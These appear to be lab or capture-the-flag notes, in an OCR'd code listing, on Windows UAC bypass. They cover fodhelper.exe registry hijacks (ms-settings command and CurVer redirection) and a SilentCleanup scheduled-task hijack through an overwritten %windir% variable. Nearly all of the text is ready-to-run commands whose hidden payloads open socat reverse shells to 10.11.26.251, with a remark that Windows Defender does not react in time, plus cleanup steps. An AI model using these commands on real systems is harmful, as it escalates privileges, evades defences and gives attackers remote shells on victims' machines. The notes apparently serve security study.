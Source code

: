 ```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.26.251:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

# Set command + Query = register delete, windows defender did not act so quickly
reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY% & fodhelper.exe

# Clean Steps
reg delete HKCU\Software\Classes\ms-settings\ /f
```

- Variations use other registry keys
```
# Powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:10.11.26.251:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force

Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force

Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

# CMD
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.26.251:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

# Clean Steps:
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

### Enviroment Variable
- Task scheduler
- Rewrite Variable %windir% ==> HKCU\Environment
  - Add at the end = "&REM " = comment everything that exist after the variable name
  
```
# Payload to be executed instead of normal scheduled task
cmd.exe /c C:\tools\socat\socat.exe TCP:10.11.26.251:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%

# Adding the new registry
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:10.11.26.251:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

# Cleanup new entries
reg delete "HKCU\Environment" /v "windir" /f
```
